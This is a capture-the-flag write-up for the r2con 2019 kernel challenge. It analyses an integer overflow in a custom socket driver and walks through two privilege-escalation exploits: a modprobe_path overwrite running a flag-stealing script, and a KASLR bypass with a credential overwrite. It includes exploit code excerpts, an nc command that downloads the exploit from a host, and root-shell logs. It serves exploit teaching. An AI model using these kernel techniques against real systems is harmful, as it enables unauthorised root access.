





# r2con 2019 kernel exploitation challenge solution

This is the reference solution to the challenge, exploiting an intended integer
overflow bug. It is very well possible that other exploitable bugs exist.

Note that the write-up uses the source code as a reference, but the original 
challenge only provided the module binary.

## Driver functionality: analysis

The `socks.ko` driver running inside the provided VM exposes a device through 
`/dev/socks`. The exposed device allows tasks to communicate with each other by 
means of "sockets", each of which is defined by an open `/dev/socks` file 
descriptor.

When a file descriptor is created, the `socks_open` function creates a new 
socket as follows:

```c
static int socks_open(struct inode *inode, struct file *file)
{

    sock_t *sock = kzalloc(sizeof(*sock), GFP_KERNEL);
    
    if (!sock)
        return -ENOMEM;

    /*
     * private_data is used to keep driver-specific data. The 
     * kernel does not touch this field at all, so drivers can
     * place their data here and get it out e.g. in ioctl.
     */

    file->private_data = sock;

    /* Initialize empty listening_list head */
    INIT_LIST_HEAD(&sock->listening_list);
    pr_info("New socks successfully created!\n");

    return 0;
}
```

As can be seen, a `sock_t` structure is created and stored as `private_data`, 
which is then accessible through the `struct file *` provided to the different 
file operations functions.

The following file_operations are defined:

```c
static const struct file_operations socks_fops = {
    .owner			= THIS_MODULE,
    .open			= socks_open,
    .release		= socks_close,
    .llseek 		= no_llseek,
    .unlocked_ioctl = socks_ioctl,
};
```

Of these, the most interesting one is `socks_ioctl` since it allows us to 
interact with the created socket. `socks_close` will only be used after no more 
references to the `struct file *` are left, which could also be of interest.

The `socks_ioctl` function implements 4 actions on the socket:

* `IOCTL_SOCKS_INIT` initializes the socket. This is required before any other 
code can be used.

* `IOCTL_SOCKS_LISTEN` puts the socket to listen under a globally unique name. 
Requires having initialized the socket.

* `IOCTL_SOCKS_CONNECT` connects the current socket to a listening socket, 
identified by its name. Requires having initialized the socket.

* `IOCTL_SOCKS_SEND` and `IOCTL_SOCKS_RECV` allow sending data through the socket
and receiving it, respectively. Require a connected socket.

Each of these ioctl codes is implemented in a separate function in the source 
code, but they get inlined into `socks_ioctl` in the compiled version.

### Socket initialization - intended vulnerability

When initializing a socket, the ioctl argument is interpreted as an `unsigned 
long` and represents a buffer size:

```c
static long socks_ioctl_init(sock_t *sock, unsigned long arg) {
[1] uint64_t size = arg + sizeof(sock_buf_t);
    sock_buf_t *buf = NULL;
    int err = 0;

    // Sanity check without locking the buffer.
[2] if (size > MAX_SIZE) {
        return -EINVAL;
    }

    // First off: lock the buffer

    spin_lock(&sock->lock);

    if (sock->state != UNINITIALIZED) {
        err = -EINVAL;
        goto out_unlock;
    }

[3] buf = kzalloc(size, GFP_KERNEL);
    printk(KERN_ALERT "Allocated ptr %llx\n", buf);

    if (IS_ERR_OR_NULL(buf)) {
        err = (buf ? PTR_ERR(buf) : -ENOMEM);
        goto out_unlock;
    }

    sock->buf = buf;
    sock->buf->size = size - sizeof(sock_buf_t);
    sock->buf->write_index = 0;
    sock->buf->read_index = 0;
[4] sock->buf->buffer = (unsigned char *)buf + sizeof(sock_buf_t); // Buffer is inline

    sock->state = INITIALIZED;

    pr_info("Initialized socket with buffer size %lx\n", sock->buf->size);


out_unlock:
    spin_unlock(&sock->lock);
    return err;
}
```

At `[1]` the size of a structure `sock_buf_t` is added to the requested size,
potentially overflowing. At `[2]` a check is performed, but the damage is 
already done.

Next, at `[3]` a buffer of the computed size is allocated and later 
initialized. The allocated buffer contains a header of type `sock_buf_t` and an 
inline buffer of the requested size, with the `buffer` pointer of `sock_buf_t` 
pointing to the inlined space.

Under normal circumstances, the `buffer` field of a `sock_buf_t` points into a 
`size`-byte long buffer that follows it on the heap, as shown here:



Now, if we provide an `arg` value bigger than `ULONG_MAX-0x20` the addition at 
`[1]` will overflow and the buffer field will point out of bounds. If we use a 
value of -1 (or `ULONG_MAX`) the requested size will be 0x1F and the structure 
allocated in the `kmalloc-32` slab. In that case, the `buffer` field will point 
to the next heap object, as illustrated here:



Therefore, any uses of this field to access memory will result in out-of-bounds 
reads or writes. 

### Listening and connecting

When we try to listen on a socket, the code checks that the state is valid (i.e.
INITIALIZED) and that there are no name clashes with other listening sockets:

```c
    /*
     * Not allowed to listen unless we are in initialized
     * state.
     */
    if (sock->state != INITIALIZED) {
        err = -EINVAL;
        goto out_unlock;
    }

    /* Make sure there is no other socket with this name */
    spin_lock(&sock_device.lock);
    if (socks_find_listening_device(param->name)) {
        err = -EINVAL;
        pr_err("There's already a socket with that name");
        spin_unlock(&sock_device.lock);
        goto out_unlock;
    }
 
```

If all this is good, the socket gets added to a global list of listening sockets
within the sock_device structure and sets its state to LISTENING:

```c
    /* Alright, nobody else on that list. Add to the list and set to listening */
    strcpy(sock->name, param->name);
    sock->state = LISTENING;
    list_add(&sock->listening_list, &sock_device.listening);
    pr_info("Socket is now listening at %s\n", param->name);
    spin_unlock(&sock_device.lock);
```

When a socket tries to connect to a listening socket, the driver does a similar 
state check and then searches for the listening socket. If found, it'll set both
ends to CONNECTED and bind them through the `peer` field in the `sock_t` structure:

```c
    spin_lock(&sock_device.lock);
    if ( (peer = socks_find_listening_device(param->name)) == NULL) {
        pr_err("No socket with that name found");
        err = -EINVAL;
        spin_unlock(&sock_device.lock);
        goto out_unlock;
    }

    /* Remove peer from listening list */
    spin_lock(&peer->lock);
    list_del_init(&peer->listening_list);
    spin_unlock(&sock_device.lock);

    /* Connect the two sockets */
    sock->state = CONNECTED;
    sock->peer = peer;
    peer->peer = sock;
    peer->state = CONNECTED;

    pr_info("Successfully connected to %s\n", param->name);
    spin_unlock(&peer->lock);
```

### Sending and receiving data

Sending and receiving data starts by making sure that the socket state is 
CONNECTED. The data intended for a given socket is stored in its own `sock_buf_t` 
buffer.

Thus, when sending data, the code finds the peer socket and makes sure the data 
will fit. If so, it copies the data. When receiving data, the code finds the 
current socket's buffer and tries to fetch data off it.

The code is a little convoluted because it implements a (buggy) circular buffer
mechanism. The `write_index` field indicates where data will be written to, 
while the `read_index` field indicates where the first unread byte is available.

They both start at 0, and evolve depending on the usage. If `write_index` 
reaches the end of the buffer, it wraps around to zero. And the same occurs with
`read_index`.

For example, this is part of the `socks_push` function implementing adding data 
to a buffer:

```c
    /*
     * If data doesn't fit, fail.
     */
    if (sock_buf_left(buf) < size) {
        return -ENOMEM;
    }


    /* 
     * We can write up to read_index if it's bigger than write_index,
     * or up to end of buffer otherwise.
     */
    size_t max_write_index = (buf->read_index > buf->write_index) ? buf->read_index : buf->size;
    size_t copy1_size = min(size, max_write_index - buf->write_index);
    size_t prev_write_index = buf->write_index;

    if (copy_from_user(buf->buffer + buf->write_index, buffer, copy1_size)) {
        return -ENOMEM;
    }

    /* Update our write index */
    buf->write_index = (buf->write_index + copy1_size) % buf->size;
```

## Exploitation - reference solution

In this section I will provide my initial solution, and in the next one an 
alternative solution that bypasses KASLR as well. If you haven't solved the 
challenge, now would be a good time to give it a try before reading on!

### Available primitives

So we have an integer overflow bug that results in a `sock->buf->buffer` pointing 
out of bounds. As we've seen above, if the given socket is connected AND we send 
data to it, the sent data will corrupt adjacent heap memory. This is of course 
very useful :)

Furthermore, if we first send data to the buffer (corrupting whatever is behind 
it) but then have the kernel replace it by something else we can also read the 
replaced data back by receiving it through the socket.

### Challenge setup

The challenge setup was quite simple, in the sense that the kernel was running 
with almost no mitigations. In particular:

* HARDENED_USERCOPY was disabled
* SMEP and SMAP were not available
* KASLR was not compiled in
* /proc/kallsyms was world-readable
* Heap randomization was turned off, as well as other heap hardening options

### Exploitation approach

Given the structures and functionality in this module, it is quite simple to 
achieve arbitrary write capabilities. For this, I followed the following 
approach in my reference solution:

1. Create a bunch of sockets of size 0 to fill up the kmalloc-32 slabs
2. Create 2 more sockets of size -1 and connect them to each other
3. Send data to the first socket to smash the second socket `sock_buf_t`, 
setting `buffer` to an arbitrary value.
4. Send data to the second buffer to achieve arbitrary write.

For my original solution I chose to overwrite `modprobe_path` since auto-loading 
was enabled and without any filtering. I then had it replaced by the string 
`/home/user/pwn.sh` which contained an executable script with these contents:

```
#!/bin/sh
id > /tmp/pwn3d
cp /flag.txt /home/user/flag.txt
chmod 777 /home/user/flag.txt
```

After this, we can cause the script to be executed by e.g. creating an SCTP 
socket or trying to load an executable file with an invalid format.

In order to run the exploit on the target machine, we simply have to compile it 
statically and send it over. The machine was configured with qemu networking on, 
so you could find the host at 10.0.2.2, or in the CTF use any machine with a 
public IP address.

As an example, here is a run on my test machine (note this has the actual CTF 
flag, while the VM I provided contains an all-zeroes flag):

```sh
~ $ cd ; nc 10.0.2.2 1234 > exploit ; chmod +x exploit
~ $ nc 10.0.2.2 1234 > pwn.sh ; chmod +x pwn.sh
~ $ ./exploit
[...] 

[  224.945090] Initialized socket with buffer size 0
[  224.945510] New socks successfully created!
[  224.945917] Initialized socket with buffer size 0
[  224.946287] New socks successfully created!
[  224.946534] Initialized socket with buffer size 0
[  224.946937] New socks successfully created!
[  224.947368] Initialized socket with buffer size 0
[  224.947970] New socks successfully created!
[  224.948379] New socks successfully created!
[  224.948831] Initialized socket with buffer size ffffffffffffffff
[*] Trying to listen in test_socket
[  224.952268] Length of name: 11
[  224.952476] Searching for socket test_socket
[  224.952845] Socket is now listening at test_socket
[  224.953220] Initialized socket with buffer size 0
[*] Trying to connect to test_socket
[  224.954180] Length of name: 11
[  224.954473] Searching for socket test_socket
[  224.955079] Successfully connected to test_socket
~ $ cat flag.txt 
r2con{06e6ec5e2653a51e6e383ee4776a6670}
~ $ cat /tmp/pwn3d 
uid=0(root) gid=0(root)
~ $ 
```

See `exploit_modprobe_path.c` for this solution. Make sure you also place the 
`pwn.sh` script in `/home/user/` if you test it.

## Exploitation - stable arbitrary read/write and KASLR bypass

I was chatting with [@dialluvioso_](https://twitter.com/dialluvioso_) while he tried 
to solve the challenge, and he mentioned he wanted to avoid the `modprobe_path` 
solution and also assume KASLR was on.

I hadn't really thought much about it for this challenge, but given the bug 
it is obvious that one can easily get arbitrary read/write by correctly setting
up the `sock_buf_t` structure.

However, for bypassing KASLR one needs to know some valid kernel pointer before 
attempting to e.g. find the current task structure and change its credentials.

Additionally, if we smash a `sock_buf_t` via a `send` like we did above, the write 
index for the corresponding socket gets incremented as well. For this reason, 
you cannot simply overwrite the `sock_buf_t` over and over by sending additional
data.

A very simple solution is to free the buffer and make a new one in its place. If
all goes well, the new `sock_buf_t` will be placed in the hole left behind by 
the old one and we'll be able to smash the buffer again.

However, this could also fail if another kernel path reallocates the object 
before us, and we'd be introducing a chance for this to happen for every read or 
write we perform.

If we analyze the `socks_push` function, we can see that IF `copy_from_user` 
fails the write index won't be incremented:

```c
    /* 
     * We can write up to read_index if it's bigger than write_index,
     * or up to end of buffer otherwise.
     */
    size_t max_write_index = (buf->read_index > buf->write_index) ? buf->read_index : buf->size;
    size_t copy1_size = min(size, max_write_index - buf->write_index);
    size_t prev_write_index = buf->write_index;

    if (copy_from_user(buf->buffer + buf->write_index, buffer, copy1_size)) {
        return -ENOMEM;
    }

    /* Update our write index */
    buf->write_index = (buf->write_index + copy1_size) % buf->size;
```

This actually opens a door for us to corrupt the adjacent `sock_buf_t` without 
incrementing the write index as follows:

1. We allocate two pages with `mmap`, at address `X`
2. We mark the page at `X + 0x1000` as unreadable with `mprotect` and `PROT_NONE`
3. We write our fake `sock_buf_t` at `X + 0xFE0`, i.e. 0x20 bytes before the 
unreadable page.
4. We send 0x21 bytes through the buffer starting at `X + 0xFE0`.

The `copy_from_user` function will actually copy 0x20 bytes and then generate a 
page fault. This additionally results in calling `memset` to clear the last byte, 
as can be seen here:

```c
unsigned long _copy_from_user(void *to, const void __user *from, unsigned long n)
{
	unsigned long res = n;
	might_fault();
	if (likely(access_ok(VERIFY_READ, from, n))) {
		kasan_check_write(to, n);
		res = raw_copy_from_user(to, from, n);
	}
	if (unlikely(res)) {
		memset(to + (n - res), 0, res);
	}
	return res;
}
```

Thus, we corrupt 0x20 bytes with controlled data and an additional byte with zero,
and the write_index remains zero. Using this trick we can therefore corrupt the 
adjacent `sock_buf_t` repeatedly and get a stable read/write primitive without 
the need for reallocating anything.

The only missing element is a pointer leak. The following idea came up during 
the discussion:

1. Create and connect two sockets. Their buffers should be adjacent to the buffer 
we will use for performing memory corruption, thus we need to use the bug with 
them as well. The last few sockets on the heap now look as follows:
	
	


2. Send data to the first of these sockets, thus incrementing its `write_index` 
to an arbitrary value. Note that because of the bug we'd be corrupting as many 
bytes out-of-bounds, so I decided to corrupt 0x20 bytes to make sure I only 
overwrite one `sock_buf_t` and not further. This would leave us with the 
following heap layout:

	


3. Set the last byte of `sock_buf_t->buffer` to 0x00. This will most likely 
misalign the value and make it point to an earlier `sock_buf_t` as shown in the 
figure below:

	

	Note that this is an example but there are no guarantees that the `sock_buf_t`
	the buffer points to after setting its LSB to 0x00 is exactly 2 buffers before 
	our corrupted `sock_buf_t`.

4. Read the data from the buffer through `socks_recv`. We should now learn the 
contents of the `sock_buf_t`, including a pointer to itself.

From here, we learn the address of a kmalloc-32 object close to the overflown 
buffer (at most 0xe0 bytes earlier). We can now use the arbitrary read to find 
exactly where the overflown buffer was by searching for the data written in step 
2 above.

This is how I do that in my exploit:

```c
uint64_t leak(void) {
  int ret;
  *((uint64_t *) (ptr + 0xff8)) = 8;

  /* Make sure there are 0x20 bytes available to be read */
  char buf[0x20] = { [0 ... 0x1f] = 'A' };
  ret = sock_send(fds[3], buf, 0x20);
  
  /* Smash `size` and set LSB of buffer to 0x00 */
  ret = sock_send(fds[0], ptr + 0xff8, 9);

  /* Read 0x20 bytes from modified buffer pointer */
  ret = sock_recv(fds[2], buf, 0x20);
  return *((uint64_t *) (buf + 8));;
}

int main(int argc, char* argv[argc+1]) {

	// ...

	uint64_t addr = leak();

	uint64_t fds3 = 0;

	for(int i=0; i < 256; i+= 8) {
		uint64_t data = read64(addr + i);
		if (data == 0x4141414141414100) {
			/* found fds[3] ! */
			fds3 = addr + i;
		}
	}

	if (!fds3) {
		printf("[!] Failed to find fds[3]\n");
		exit(0);
	}

	printf("[*] fds[3] sock_buf_t at %lx\n", fds3);
	uint64_t target = fds3 - 4*0x20;

```


Once we know this, we can free an arbitrary `sock_buf_t` and replace it with 
another kmalloc-32 object containing pointers to the kernel .text or .data 
sections in order to fully bypass KASLR.

After a small search, I found the following two options:

1. The `shmat` syscall allocates a structure of type `struct shm_file_data` using 
`kzalloc`:

	```c
	struct shm_file_data {
		int id;
		struct ipc_namespace *ns;
		struct file *file;
		const struct vm_operations_struct *vm_ops;
	};
	```

	Both the `ns` and the `vm_ops` fields point to kernel .data. Thus all we 
	need to do is to create a shared memory area with `shmget` at the beginning 
	of the exploit and map it with `shmat` after we've leaked the kmalloc-32 
	address.

2. When opening a file using the `seq_file` facility, `single_open` allocates a 
`struct seq_operations` with `kmalloc`. This structure contains a 4 function 
pointers as shown here: 

	```c
	struct seq_operations {
		void * (*start) (struct seq_file *m, loff_t *pos);
		void (*stop) (struct seq_file *m, void *v);
		void * (*next) (struct seq_file *m, void *v, loff_t *pos);
		int (*show) (struct seq_file *m, void *v);
	};
	```

	All we need to do in this case is open a file descriptor to any file that 
	uses `single_open`, for example `/proc/self/stat`.

After we leaked the kernel base address, we can just find `init_task` by adding 
its offset. Then we can iterate the task structure and give ourselves root.

I've implemented this solution in `exploit_kaslr_cred.c`. By default the code 
uses the `single_open` approach to find the kernel base, but can be compiled 
with `-DUSE_SHMEM_LEAK` to use the shmem-based approach. 

When running the exploit you should see something like this:

```sh
$ ./test

...

[*] fds[3] sock_buf_t at ffff888002f9e520
[*] Kernel base: 0xffffffff81000000
[*] We are: 0
/bin/sh: can't access tty; job control turned off
/home/user # id
uid=0(root) gid=0(root)
/home/user # cat /flag.txt 
r2con{06e6ec5e2653a51e6e383ee4776a6670}
/home/user # 
```

